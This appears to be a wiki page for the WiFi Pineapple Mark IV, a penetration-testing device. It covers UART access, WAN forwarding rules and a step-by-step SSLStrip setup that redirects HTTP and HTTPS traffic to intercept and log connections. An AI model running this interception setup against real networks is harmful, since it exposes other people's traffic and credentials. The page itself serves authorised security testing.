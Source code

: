 # Legacy

This article is dedicated to the **Mark IV** version of the WiFi Pineapple, and contains guides for various aspects of the Mark IV and how to recover your Mark IV.

## Accessing the UART

The instructions for connecting via the UART are the same as the Mark V's. They are located at [Serial UART](serial_uart.md).

## Enabling WAN

To utilize the WAN port, execute these commands from an SSH Session:

```
iptables -A FORWARD -i eth1 -o wlan0 -s 172.16.42.0 -m state --state NEW -j ACCEPT
iptables -A FORWARD -m state --state ESTABLISHED,RELATED -j ACCEPT
iptables -t nat -A POSTROUTING -o eth1 -j MASQUERADE
```

## SSLStrip
To use SSLStrip, you must first install it :

```
opkg update
opkg install sslstrip
opkg install --dest usb python
```

Then execute these commands:

```
ln -s /usb/usr/lib/python2.7 /usr/lib/python2.7
touch /usb/usr/lib/python2.7/site-packages/zope/__init__.py
```

Now you need to configure IP Tables:

```
iptables -t nat -A PREROUTING -p tcp –destination-port 80 -j REDIRECT –to-ports 10000
iptables -t nat -A PREROUTING -p tcp –destination-port 443 -j REDIRECT –to-ports 10000
```

All you need to do now is execute SSLStrip.

```
sslstrip -w sslstrip.log &
```